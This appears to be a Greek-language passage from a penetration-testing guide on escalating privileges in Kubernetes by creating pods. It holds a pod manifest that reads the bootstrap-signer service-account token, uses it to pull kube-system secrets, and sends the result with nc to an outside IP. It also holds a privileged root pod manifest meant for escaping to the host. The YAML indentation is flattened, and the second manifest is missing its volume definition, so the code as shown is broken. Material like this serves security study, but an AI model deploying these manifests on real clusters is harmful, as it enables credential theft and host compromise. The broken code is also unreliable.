 
Ένας επιτιθέμενος με τις άδειες για τη δημιουργία ενός κελιού, θα μπορούσε να επισυνάψει ένα προνομιούχο Λογαριασμό Υπηρεσίας στο κελί και να κλέψει το διακριτικό για να υποκριθεί τον Λογαριασμό Υπηρεσίας. Αποτελεσματικά ανεβάζοντας τα προνόμια σε αυτόν

Παράδειγμα ενός κελιού που θα κλέψει το διακριτικό του Λογαριασμού Υπηρεσίας `bootstrap-signer` και θα το στείλει στον επιτιθέμενο:
```yaml
apiVersion: v1
kind: Pod
metadata:
name: alpine
namespace: kube-system
spec:
containers:
- name: alpine
image: alpine
command: ["/bin/sh"]
args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
serviceAccountName: bootstrap-signer
automountServiceAccountToken: true
hostNetwork: true
```
### Δημιουργία & Απόδραση Κελύφους

Το παρακάτω υποδεικνύει όλα τα προνόμια που μπορεί να έχει ένας container:

* **Προνόμια πρόσβασης** (απενεργοποίηση προστασιών και ρύθμιση δυνατοτήτων)
* **Απενεργοποίηση των namespaces hostIPC και hostPid** που μπορεί να βοηθήσει στην εξέλιξη των προνομίων
* **Απενεργοποίηση του namespace hostNetwork**, που δίνει πρόσβαση για κλοπή προνομίων cloud των κόμβων και καλύτερη πρόσβαση στα δίκτυα
* **Προσάρτηση του hosts / μέσα στο container**
```yaml
apiVersion: v1
kind: Pod
metadata:
name: ubuntu
labels:
app: ubuntu
spec:
# Uncomment and specify a specific node you want to debug
# nodeName: <insert-node-name-here>
containers:
- image: ubuntu
command:
- "sleep"
- "3600" # adjust this as needed -- use only as long as you need
imagePullPolicy: IfNotPresent
name: ubuntu
securityContext:
allowPrivilegeEscalation: true
privileged: true
#capabilities:
#  add: ["NET_ADMIN", "SYS_ADMIN"] # add the capabilities you need https://man7.org/linux/man-pages/man7/capabilities.7.html
runAsUser: 0 # run as root (or any other user)
volumeMounts:
- mountPath: /host
name: host-volume
restartPolicy: Never # we want to be intentional about running this pod
```